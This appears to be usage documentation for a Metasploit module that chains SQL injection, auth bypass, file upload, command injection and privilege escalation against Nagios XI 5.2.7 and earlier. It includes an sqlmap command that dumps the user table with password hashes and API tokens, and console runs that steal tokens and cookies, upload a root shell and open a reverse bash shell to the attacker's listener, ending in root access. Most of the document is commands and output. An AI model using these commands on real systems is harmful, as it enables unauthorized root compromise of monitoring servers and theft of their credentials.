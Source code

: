 ## Introduction

Nagios XI is the enterprise version of Nagios, the monitoring software we love
and hate.

> This module exploits an SQL injection, auth bypass, file upload, command
injection, and privilege escalation in Nagios XI <= 5.2.7 to pop a root shell.

## Setup

**Download the virtual appliance:**

I used the 64-bit OVA [here]. Remove the "-64" in the link to download the
32-bit OVA.

[here]: https://assets.nagios.com/downloads/nagiosxi/5/ovf/nagiosxi-5.2.7-64.ova

**Import the OVA:**

Just import it into VMware or VirtualBox. It should create a VM for you.

**Configure the software:**

When you start the VM, you will see ```Access Nagios XI at http://[redacted]```
on the login screen. Connect to the URL using your web browser and follow the
steps on the screen to configure the app.

Configuration is actually not required to exploit the app, but you should do it
anyway.

## Options

### USER_ID

  If you wish to exploit a particular ```USER_ID```, that can be specified here.  Default is 1, which is most likely the admin account.
  
### API_TOKEN
  
  The SQLi included only works for MySQL, which should work in most cases.  However, if you experience a different backend, you can enumerate the user
  table via sqlmap: ```sqlmap -u "http://[ip]/nagiosxi/includes/components/nagiosim/nagiosim.php?mode=resolve&host=a&service=" -p service -T xi_users --dump```.
  Then you can set the ```USER_ID``` and ```API_TOKEN``` to skip those phases and move on to exploitation.  Default is empty.  See example below for more usage.

## Usage

### Typical Usage

Just set ```RHOST``` and fire off the module! It's pretty much painless.
```set VERBOSE true``` if you want to see details.

```
msf > use exploit/linux/http/nagios_xi_chained_rce 
msf exploit(nagios_xi_chained_rce) > set rhost [redacted]
rhost => [redacted]
msf exploit(nagios_xi_chained_rce) > set verbose true
verbose => true
msf exploit(nagios_xi_chained_rce) > run

[*] Started reverse TCP handler on [redacted]:4444 
[*] Nagios XI version: 5.2.7
[*] Getting API token
[+] API token: 3o2erpm0
[*] Getting admin cookie
[+] Admin cookie: nagiosxi=jcilcfptj7ogpvovgs3i5gilh7;
[+] CSRF token: 477abd7db8d06ade9c7fcd9e405fd911
[*] Getting monitored host
[+] Monitored host: localhost
[*] Downloading component
[*] Uploading root shell
[*] Popping shell!
[*] Command shell session 1 opened ([redacted]:4444 -> [redacted]:60132) at 2016-07-01 00:12:20 -0500
[*] Cleaning up...
[*] rm -rf ../profile
[*] unzip -qd .. ../../../../tmp/component-profile.zip
[*] chown -R nagios:nagios ../profile
[*] rm -f ../../../../tmp/component-xAmhUGRn.zip

3904334783
TwMSxKhKEaxUjlTSNYyeICVUuPSNkwoI
cKKdfdZxRpDduZCezKXOficrVyNeVggH
mRVdstQmfdtnFiYMjLgyfvRWXyQZPyUF
dDlRoqhBvqvwrhKYWumimyKxVHSbrkoE
wjCWBTgbsQuPemhiByeMpMEhdPooHEvw
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
uname -a
Linux localhost.localdomain 2.6.32-573.22.1.el6.x86_64 #1 SMP Wed Mar 23 03:35:39 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

### Emulating a different DB

#### First we'll attempt the exploit and see what happens.

```
msf exploit(nagios_xi_chained_rce) > show options

Module options (exploit/linux/http/nagios_xi_chained_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   API_TOKEN                   no        If an API token was already stolen, skip the SQLi
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      192.168.2.218    yes       The target address
   RPORT      80               yes       The target port
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   USER_ID    1                yes       User ID in the database to target
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.2.117    yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nagios XI <= 5.2.7


msf exploit(nagios_xi_chained_rce) > exploit

[*] Started reverse TCP handler on 192.168.2.117:4444 
[*] Nagios XI version: 5.2.7
[*] Getting API token
[+] 0 incidents resolved in Nagios IM

[-] Exploit aborted due to failure: unexpected-reply: API token not found! punt!
[*] Exploit completed, but no session was created.
```

#### Now lets try using sqlmap to enumerate the user table.

```
root@k:~# sqlmap -u "http://192.168.2.218/nagiosxi/includes/components/nagiosim/nagiosim.php?mode=resolve&host=a&service=" -p service -T xi_users --dump
...snip...
Database: nagiosxi
Table: xi_users
[2 entries]
+---------+----------------------+-------------------+---------+-------------+----------------------------------+------------------------------------------------------------------+
| user_id | name                 | email             | enabled | username    | password                         | backend_ticket                                                   |
+---------+----------------------+-------------------+---------+-------------+----------------------------------+------------------------------------------------------------------+
| 2       | admin2               | admin2@admin2.com | 1       | admin2      | c84258e9c39059a89ab77d846ddab909 | 8ftgcj2jubs8nrjnlga0ssakeen4ij8p339cl8shgom7kau7n86j3d6grsidgp6g |
+---------+----------------------+-------------------+---------+-------------+----------------------------------+------------------------------------------------------------------+

...snip...
```

#### Re-target
Now, we can set the ```USER_ID``` and ```API_TOKEN``` (backend_ticket)

```
msf exploit(nagios_xi_chained_rce) > set USER_ID 2
USER_ID => 2
msf exploit(nagios_xi_chained_rce) > set API_TOKEN 8ftgcj2jubs8nrjnlga0ssakeen4ij8p339cl8shgom7kau7n86j3d6grsidgp6g
API_TOKEN => 8ftgcj2jubs8nrjnlga0ssakeen4ij8p339cl8shgom7kau7n86j3d6grsidgp6g
msf exploit(nagios_xi_chained_rce) > exploit

[*] Started reverse TCP handler on 192.168.2.117:4444 
[*] Nagios XI version: 5.2.7
[*] Getting admin cookie
[+] Admin cookie: nagiosxi=rjs4f9k4299v78hpgq3374q6j6;
[+] CSRF token: c53d1f591264a3ea771639a7782627f8
[*] Getting monitored host
[+] Monitored host: localhost
[*] Downloading component
[*] Uploading root shell
[*] Popping shell!
[*] Command shell session 2 opened (192.168.2.117:4444 -> 192.168.2.218:51032) at 2016-10-10 10:15:08 -0400
[*] Cleaning up...
[*] rm -rf ../profile
[*] unzip -qd .. ../../../../tmp/component-profile.zip
[*] chown -R nagios:nagios ../profile
[*] rm -f ../../../../tmp/component-ZEaGkiTW.zip

1138255764
NXEqynCVIfLzvpjUkqOovFvuLgsUrtpo
CKorOSWlTQEkRoiwCiBqTgylyLQjuWxU
oIGZxLofAStLsgsMNaGnQzzMuBYpJUQs
fkUlWzVvhurgAATtxKhLSBFCxQaZqjtR
QajRDDToeigHGMFdUbaClxkLfJbxqBKv
whoami
root
```
